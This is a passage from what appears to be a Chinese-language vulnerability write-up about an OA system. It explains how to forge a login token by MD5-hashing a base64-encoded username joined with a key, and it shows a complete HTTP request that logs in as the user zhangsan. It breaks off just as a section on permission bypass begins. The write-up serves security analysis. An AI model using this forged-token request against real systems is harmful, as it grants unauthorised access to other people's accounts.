 那么构造逻辑即可成功登录，传入`user`​ base64 加密的内容并且跟 key 进行拼接后再 md5 加密传为`token`​，两者相等即可登录

前提是 user 是存在的 (跑一下就知道是 zhangsan 存在)

```bash
GET /oa/auth/withub?user=emhhbmdzYW4=&token=b336aa3ea64e703583bb7cbe6d924269 HTTP/1.1
Host: xxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# user zhangsan
```

[![](assets/1709083162-a51a5bd195350fdd9a197da38903cd6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227110406-dea0bc14-d51c-1.png)

直接跳转即可登录了​​

## 权限绕过

找到这个文件 `api/modules/v1/controllers/UserController.php`​

[![](assets/1709083162-2de8dfccf6df0a17bb17da9fa4046cb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227110419-e620f742-d51c-1.png)